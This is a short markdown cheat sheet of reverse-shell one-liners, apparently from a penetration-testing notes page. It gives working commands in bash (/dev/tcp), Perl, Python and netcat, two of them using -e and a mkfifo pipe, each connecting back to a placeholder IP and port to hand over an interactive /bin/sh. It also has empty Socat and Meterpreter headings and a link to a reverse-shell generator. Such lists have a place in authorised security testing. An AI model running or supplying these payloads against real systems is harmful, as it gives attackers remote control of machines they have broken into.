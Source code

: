 # Shells 
## Bash
**In Current Shell**
```bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```
**In New Bash Shell**
Linux
```bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
## Perl 
Linux
```bash
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Python 
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Netcat 
### With '-e' Option
```bash
nc -e /bin/sh IP PORT
```
### Without '-e' Option
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
```
## Socat 
## Meterpreter 
## Links
### Reverse Shell Generator
[RevShells](https://www.revshells.com/)
